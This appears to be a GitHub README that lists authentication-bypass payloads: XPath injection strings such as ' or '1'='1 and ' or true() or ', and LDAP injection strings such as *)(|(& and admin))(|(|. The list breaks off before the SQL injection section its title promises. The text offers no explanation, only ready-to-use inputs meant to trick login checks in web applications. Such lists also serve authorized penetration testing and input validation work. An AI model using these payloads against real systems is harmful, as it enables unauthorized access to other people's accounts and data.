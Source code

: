 # SQL-Injection-Authentication-Bypass
Xpath Injection, LDAP Injection, SQL Injection Authentication Bypass
```
XPATH Injection Authentication Bypass:
' or '1'='1
' or ''='
' or 1]%00
' or /* or '
' or "a" or '
' or 1 or '
' or true() or '
'or string-length(name(.))<10 or'
'or contains(name,'adm') or'
'or contains(.,'adm') or'
'or position()=2 or'
admin' or '
admin' or '1'='2

LDAP Injection Authentication Bypass:
*
*)(&
*)(|(&
pwd)
*)(|(*
*))%00
admin)(&)
pwd
admin)(!(&(|
pwd))
admin))(|(|
